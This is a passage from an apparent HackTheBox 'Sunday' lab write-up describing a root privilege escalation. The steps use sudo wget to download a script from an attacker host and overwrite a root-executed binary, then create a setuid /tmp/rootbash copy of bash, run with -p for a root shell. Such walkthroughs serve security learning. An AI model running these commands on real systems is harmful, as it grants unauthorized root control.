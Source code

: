 	![](Pasted%20image%2020220903072146.png)

	<html>
	<head>
	<link rel="stylesheet" type="text/css" href="/asciinema-player.css" />
	</head>
	<body>
	<div id="demo"></div>
	<script src="/asciinema-player.min.js"></script>
	<script>
		AsciinemaPlayer.create('https://raw.githubusercontent.com/yufongg/yufongg.github.io/main/_posts/Writeups/HackTheBox/Linux/Sunday/images/sudoers.cast', document.getElementById('demo'), { 
		loop: true,
		cols: 120, 
		rows: 25,
		autoPlay: true,
		terminalFontSize: "small"
			});
	</script>
	</body>
	</html>

# Privilege Escalation - 3
## Root - Via WGET, replace troll binary
1. Replace `/root/troll` w/ a script to create `rootbash`
2. `rootbash` 
	```
	#!/bin/bash
	
	cp /bin/bash /tmp/rootbash; chmod 4755 /tmp/rootbash;
	```
3. `POST` `/etc/sudoers` file
	```
	-bash-4.4$ sudo /usr/bin/wget http://10.10.14.31/troll -O /root/troll
	```
	![](Pasted%20image%2020220903072842.png)
4. Obtain `root`
	```
	sunny@sunday:~$ /tmp/rootbash -p
	```
	![](Pasted%20image%2020220903072820.png)

	<html>
	<head>
	<link rel="stylesheet" type="text/css" href="/asciinema-player.css" />
	</head>
	<body>
	<div id="demo"></div>
	<script src="/asciinema-player.min.js"></script>
	<script>
		AsciinemaPlayer.create('https://raw.githubusercontent.com/yufongg/yufongg.github.io/main/_posts/Writeups/HackTheBox/Linux/Sunday/images/troll.cast', document.getElementById('demo'), { 
		loop: true,
		cols: 120, 
		rows: 25,
		autoPlay: true,
		terminalFontSize: "small"
			});
	</script>
	</body>
	</html>